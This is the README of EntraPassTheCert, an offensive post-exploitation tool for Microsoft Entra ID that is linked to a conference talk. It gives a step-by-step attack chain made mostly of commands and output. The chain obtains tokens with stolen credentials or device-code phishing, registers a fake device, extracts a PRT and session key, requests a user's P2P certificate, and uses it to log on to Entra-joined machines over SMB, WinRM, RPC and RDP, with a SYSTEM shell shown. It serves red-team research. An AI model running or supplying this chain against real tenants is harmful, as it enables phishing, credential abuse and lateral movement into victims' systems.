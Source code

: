 # EntraPassTheCert

EntraPassTheCert is a post-exploitation tool that allows attackers to request Entra ID's user P2P certificate and authenticate to a remote Entra joinned machine with it.

```
$ python3 entraptc.py -h

usage: entraptc.py [-h] [--debug] {request_p2pcert,smb,rdp,winrm,rpc} ...

post-exploitation tool for requesting p2p cert and authenticate with it

positional arguments:
  {request_p2pcert,smb,rdp,winrm,rpc}
                        Available commands
    request_p2pcert     request P2P cert with PRT and SessionKey
    smb                 SMB to Entra joinned machine with P2P cert
    rdp                 RDP to Entra joinned machine with P2P cert
    winrm               WinRM to Entra joinned machine with P2P cert
    rpc                 RPC to Entra joinned machine with P2P cert

options:
  -h, --help            show this help message and exit
  --debug               debug option
```

The code is built based on the existing great tools.

- [impacket](https://github.com/fortra/impacket)
- [ROADTools](https://github.com/dirkjanm/ROADtools)
- [AADInternals](https://github.com/Gerenios/AADInternals)
- [pywinrm](https://github.com/diyan/pywinrm)
- [aardwolf](https://github.com/skelsec/aardwolf)


This tool is presented at Troopers 2025:

[Hopping Accross Devices: Expanding Lateral Movement through Pass-the-Certificate Attack](https://troopers.de/troopers25/talks/afv8bw/)

## Usage

### Request P2P certificate

First, acquire required Microsoft Entra tokens with the credentials of any account that has local administrator access to a target device.

```bash
$ roadtx gettokens -r devicereg -c 29d9ed98-a469-4536-ade2-f981bc1d605e -u globaladmin@***.onmicrosoft.com -p $PASSWORD
Requesting token for resource urn:ms-drs:enterpriseregistration.windows.net
Tokens were written to .roadtools_auth
```

If you don't have the credentials, you could also execute devie-code phishing to acquire the tokens.

```bash
$ roadtx gettokens --device-code -r devicereg -c 29d9ed98-a469-4536-ade2-f981bc1d605e
Requesting token for resource urn:ms-drs:enterpriseregistration.windows.net
To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code HGCUCJ6CS to authenticate.
Tokens were written to .roadtools_auth
```

Next, Register a fake device to Entra ID.

```bash
$ roadtx device -a join -n fake_device
Saving private key to fake_device.key
Registering device
Device ID: 0d9d2d66-7343-4bf2-a3dd-377c9e1e6244
Saved device certificate to fake_device.pem
```

Then, using the registed device, request PRT and session key.

```bash
$ REFRESHTOKEN=(`cat .roadtools_auth | jq -r .refreshToken`)

$ roadtx prt -c fake_device.pem -k fake_device.key -r $REFRESHTOKEN
Obtained PRT: 1.AT0A7mRQZ....
Obtained session key: fabd04bf017c526fd...
Saved PRT to roadtx.prt
```

Once you receive PRT and session key, you can request user's P2P certificate.

```bash
$ PRT=(`cat roadtx.prt | jq -r .refresh_token`)

$ SESSIONKEY=(`cat roadtx.prt | jq -r .session_key`)

$ python3 entraptc.py request_p2pcert --prt $PRT --sessionkey $SESSIONKEY
[*] requesting P2P cert...
[+] successfully acquired P2P cert!
[*] here is your p2p cert pfx : p2pcert.pfx (pw: password)

```

### Pass the P2P certificate

You can authenticate to a Entra joinned machine using the P2P certificate as follows.

- SMB

```bash
$ python3 entraptc.py smb --target 192.168.153.133 --pfx p2pcert.pfx
[*] connecting to 192.168.153.133 via SMB...
[+] sucessfully logged-on to the system!
Type help for list of commands
# shares
ADMIN$
C$
IPC$
# use C$
# ls
drw-rw-rw-          0  Fri May 30 15:52:50 2025 $Recycle.Bin
drw-rw-rw-          0  Sat Apr 19 01:54:46 2025 Documents and Settings
-rw-rw-rw-      12288  Sun Jun 15 10:45:59 2025 DumpStack.log.tmp
drw-rw-rw-          0  Fri May 30 09:06:09 2025 inetpub
-rw-rw-rw-  738197504  Sun Jun 15 10:45:58 2025 pagefile.sys
drw-rw-rw-          0  Sat Apr 19 02:49:28 2025 PerfLogs
drw-rw-rw-          0  Tue Jun 10 14:58:44 2025 Program Files
drw-rw-rw-          0  Tue May 27 15:59:56 2025 Program Files (x86)
drw-rw-rw-          0  Tue Jun 10 14:54:46 2025 ProgramData
drw-rw-rw-          0  Sat Apr 19 01:53:41 2025 Recovery
-rw-rw-rw-   16777216  Sun Jun 15 10:45:59 2025 swapfile.sys
drw-rw-rw-          0  Fri May 30 09:39:44 2025 System Volume Information
drw-rw-rw-          0  Fri May 30 15:52:23 2025 Users
drw-rw-rw-          0  Wed Jun 11 09:30:27 2025 Windows
```

- WinRM

```bash
$ python3 entraptc.py winrm --target 192.168.153.133 --pfx p2pcert.pfx
[*] connecting to 192.168.153.133 via WinRM...
[+] sucessfully logged-on to the system!

C:\Users\admin> whoami
azuread\admin
```

- RPC

```bash
$ python3 entraptc.py rpc --target 192.168.153.133 --pfx p2pcert.pfx

[*] connecting to 192.168.153.133 via RPC...
[+] sucessfully logged-on to the system!

C:\Windows\System32>whoami
nt authority\system
```

- RDP
  - You need to specify the account's credentials

```bash
$ python3 entraptc.py rdp --username globaladmin@***.onmicrosoft.com --password $PASSWORD --target 192.168.153.133 --pfx p2pcert.pfx
```

## Notes

- The target machine should be Entra joinned machine, not Hybrid Entra joinned or Entra registered
- Tested Windows 11/10 machine but not Windows server

## Reference

https://medium.com/@mor2464/azure-ad-pass-the-certificate-d0c5de624597